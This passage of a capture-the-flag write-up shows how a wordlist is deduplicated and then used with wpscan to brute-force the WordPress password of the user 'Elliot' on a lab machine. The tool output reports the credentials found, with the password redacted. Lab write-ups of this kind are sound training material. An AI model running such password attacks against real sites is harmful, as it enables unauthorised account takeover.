 ![Username Elliot](Images/mrrobotctf-elliot.png)

### Using wpscan

- We know the username. We need to bruteforce the password.
- We can use **fsocity.dic** as the wordlist. But the file is very large.
- Try to fetch only the unique values using `sort -u`.
- Apparently, the file size was drastically reduced (8.5 lakh values -> 11K values). Easy for bruteforcing!

```bash
$ wc -l fsocity.dic 
858160 fsocity.dic

$ sort -u fsocity.dic > uniq-fscoity.dic

$ wc -l uniq-fscoity.dic 
11451 uniq-fscoity.dic
```

- Using `wpscan` for bruteforcing the password:

```bash
$ wpscan --url http://10.10.25.251 -t 50 -U Elliot -P uniq-fscoity.dic
.
.
[+] Performing password attack on Xmlrpc Multicall against 1 user/s
Progress Time: 00:00:00 <                                                                               > (0 / 22)  0.00%  ETA: ??:??:??
[SUCCESS] - Elliot / REDACTED
All Found

Progress Time: 00:07:35 <==========================================                                    > (12 / 22) 54.54%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: Elliot, Password: REDACTED
.
.
```
